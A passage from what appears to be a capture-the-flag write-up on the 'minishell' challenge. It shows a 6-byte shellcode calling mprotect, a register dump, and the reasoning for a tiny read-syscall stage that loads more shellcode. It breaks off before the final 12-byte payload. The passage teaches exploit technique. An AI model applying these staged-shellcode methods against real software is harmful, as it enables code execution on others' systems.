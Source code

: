 Shellcode (6 bytes):
```
    mov al, 0xa
    mov dl, 0x7
    syscall
```

#### Shellcode to call read

After calling `mprotect`, the register status become:

```
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ff7006 --> 0xf8eb5e5f5051
RDX: 0x7
RSI: 0x1000
RDI: 0x7ffff7ff7000 --> 0x5051050f07b20ab0
RBP: 0x7fffffffe580 --> 0x555555554cf0 (push   r15)
RSP: 0x7fffffffe560 --> 0x7fffffffe668 --> 0x7fffffffe853 ("./minishell")
RIP: 0x7ffff7ff7006 --> 0xf8eb5e5f5051
R8 : 0x555555757b30 --> 0x555555757c30 --> 0x0
R9 : 0x0
R10: 0x1
R11: 0x317
R12: 0x5555555549b0 (xor    ebp,ebp)
R13: 0x7fffffffe660 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x217 (CARRY PARITY ADJUST zero sign trap INTERRUPT direction overflow)
```

`read(int fd, void *buf, size_t count)`
* `RDI` should be `0`
* `RSI` should be the address of mmap memory
* `RDX` can be any value
* `RAX` is already set to `0`

We have 6 bytes left to call `read`. We need at least 4 bytes to control the register `RDI` and `RSI`, also 2 bytes for `syscall`, so we can only read 7 bytes if we execute the following shellcode (6 bytes):

```
    push rdi
    push rax
    pop rdi
    pop rsi
    syscall
```

However, we can't execute the next shellcode because `RIP` is not set to `RSI`. Notice that `RCX` is the address after calling `syscall` in our previous shellcode, if we set `RSI` to `RCX` and jump back to `syscall`, we can continue execute our new shellcode.

Here is the shellcode (12 bytes):
